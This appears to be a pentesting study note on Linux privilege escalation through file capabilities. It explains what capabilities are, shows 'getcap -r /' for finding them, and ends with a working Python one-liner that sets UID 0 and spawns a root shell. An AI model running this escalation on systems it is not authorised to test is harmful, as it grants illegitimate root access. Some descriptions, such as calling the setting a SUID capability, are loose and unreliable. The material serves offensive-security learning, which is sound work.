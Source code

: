 # Linux Privilege Escalation: Capabilities

## Contents
- [What are capabilities in Linux](#what-are-capabilities-in-linux)
- [Hunting Capabilities](#hunting-capabilities)
- [Example](#example)
- [Exploit for Priv Esc](#exploit-for-priv-esc)

## [What are capabilities in Linux](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
- Before capabilities, we only had the binary system of privileged and non-privileged processes and for the purpose of performing permission checks, traditional UNIX implementations distinguish two categories of processes: privileged processes that referred as superuser or root and unprivileged processes (whose effective UID is nonzero).
- Capabilities are those permissions that divide the privileges of kernel user or kernel level programs into small pieces so that a process can be allowed sufficient power to perform specific privileged tasks.
- Capabilities are a security implementation similar in some aspects to SUID.
  - Capabilities allow a more granular configuration of what permissions are granted to non-root users.
 
## Hunting Capabilities
```
getcap -r / 2>/dev/null   # -r : enables recursive search
```
- [getcap](https://man7.org/linux/man-pages/man8/getcap.8.html) is a Linux utility that allows users to query a capability database and look up capabilities embedded in a binary file.
- Automated tools like [LinPEAS](20_automating_local_enum.md) will also find it.
- If you find something, research it.

Programs that might be of interest to you if they have a Capability (especially the "ep"): 
- Python
- Perl
- SSH
- tar (can be used to read files, etc.)

## Example

![image](https://github.com/user-attachments/assets/6b859938-e20b-496f-8263-84b6e5b1e87d)

- This shows us that there is one capability set on one program on the system.
- This is a capability of SUID set on Python2.6 to "ep"
  - "p" = the binary has all the capabilities permitted from the start.
  - "e" = the binary has all the capabilities effective from the start.
  - Think about it as "permit [p] everything [e]."
  - It means all capabilities are enabled.
- If you have the capability of running Python as root, you can probably do bad things.

## Exploit for Priv Esc
- There is no "sudo" or preface command to run in order to exploit this Capability.
- You just have to run the Python binary with the Capability.
```
/usr/bin/Python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
- That gives you root.
